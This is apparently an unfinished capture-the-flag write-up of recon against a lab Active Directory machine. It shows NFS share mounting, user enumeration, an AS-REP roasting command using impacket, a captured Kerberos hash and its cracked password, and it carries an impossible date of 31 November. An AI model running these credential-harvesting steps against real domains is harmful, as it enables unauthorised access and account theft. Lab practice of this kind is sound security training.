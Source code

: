 # Razorback Helped Through

Name: Razorback
Date:  31/11/2022
Difficulty:  Medium
Description: These guys call themselves hackers. Can you show them who's the boss ??
Goals:  Chill out and have fun
Learnt:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

![](rpcclientdeadend.png)

![](2049mountage.png)

![](filtered.png)

[Newbie Tuesday](https://www.youtube.com/watch?v=sdxdSWpzF-M&t=970s)

Question-along:
- What ports are important: 445, 88, 3369 389, 636 
- AD requires DNS and hostname is important for kerberos
- crackmapexec
- null authentication
- nfs is file sharing

```bash
sudo showmount -e $ip
sudo mkdir /mnt/rb
sudo mount HAVEN-DC:/users /mnt/rb # DNS and AD
sudo su # to be root the travverse driectory 
umount $ip:/local/file/path		
```

Into the beast the first flag is here
![](mounting.png)

Exflitrating the spreadsheets full of names
![1000](theemployees.png)
sbradley.txt is the naming convention ; ljudmila vetrova AD admin 

![](learningkerbrute.png)
Have not used kerbrute in awhile

Pre-Authenication disabled in kerberos is timestamp to dc encrypted by the password hash of the user.
```bash
impacket-GetNPUsers -dc-ip HAVEN-DC -usersfile validusers.txt -format john raz0rblack.thm/
```
![](asreproasting.png)
```
$krb5asrep$twilliams@RAZ0RBLACK.THM:f46ff33ba011644211541533d0586e15$8fe6da6fb859d20d1e256ca394b0cbeab33f395874093f51a34b15031a305f6801724ac6a2f78c50f6d26933a036afd204198d4eb8efb5eaf5fd47197e9896fde4bb61b453906bd3d62b31893fab8a39874a21c0eb6dcc17c7606c2a7ec433339b8682e3a894a77794a6baf833153918b51133ad6ee8158a855a03bf563574a181f0060ee8373c39de0d675504339066c186a5a73aec3295d0443925cc82e97d1c25b19f219dc2896366c7954b955225c931e2534d1fd28a0fc8aeaceb7540a808704f80474586cd62b2696092765eedb2304cbe3df8cb4b91900d1428c4a0af0285c9ce19c2749e42d4666c53fca9d9 

roastpotatoes
```


![](cmetw.png)

![](weirdness.png)

![](ridbrute.png)

xyan1d3 is not pre-auth




## Exploit

## Foothold

## PrivEsc

      
